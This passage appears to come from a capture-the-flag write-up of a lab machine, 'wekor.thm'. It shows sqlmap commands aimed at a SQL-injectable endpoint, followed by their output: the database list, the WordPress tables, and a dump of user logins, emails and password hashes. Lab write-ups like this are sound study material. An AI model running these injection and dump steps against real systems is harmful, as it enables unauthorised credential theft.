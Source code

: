 But couldn't bruteforce password for admin and can't access any other contents. So back to SQli in `wekor.thm/it-next`.
Let's try to capture the request and pass it to sqlmap.

# sqlmap

sqlmap -r request.txt --dbs

```
[*] coupons
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
```

sqlmap -r request.txt -D wordpress -tables

```
Database: wordpress
[12 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              | => Let's start with usernames
+-----------------------+
```


sqlmap -r request.txt --dump -D wordpress -T wp_users

```
Database: wordpress
Table: wp_users
[4 entries]
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID   | user_url                        | user_pass                          | user_email        | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1    | http://site.wekor.thm/wordpress | $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. | admin@wekor.thm   | admin      | 0           | admin        | admin         | 2021-01-21 20:33:37 | <blank>                                       |
| 5743 | http://jeffrey.com              | $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 | jeffrey@wekor.thm | wp_jeffrey | 0           | wp jeffrey   | wp_jeffrey    | 2021-01-21 20:34:50 | 1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0 |
| 5773 | http://yura.com                 | $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ | yura@wekor.thm    | wp_yura    | 0           | wp yura      | wp_yura       | 2021-01-21 20:35:27 | <blank>                                       |
| 5873 | http://eagle.com                | $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ | eagle@wekor.thm   | wp_eagle   | 0           | wp eagle     | wp_eagle      | 2021-01-21 20:36:11 | <blank>                                       |
```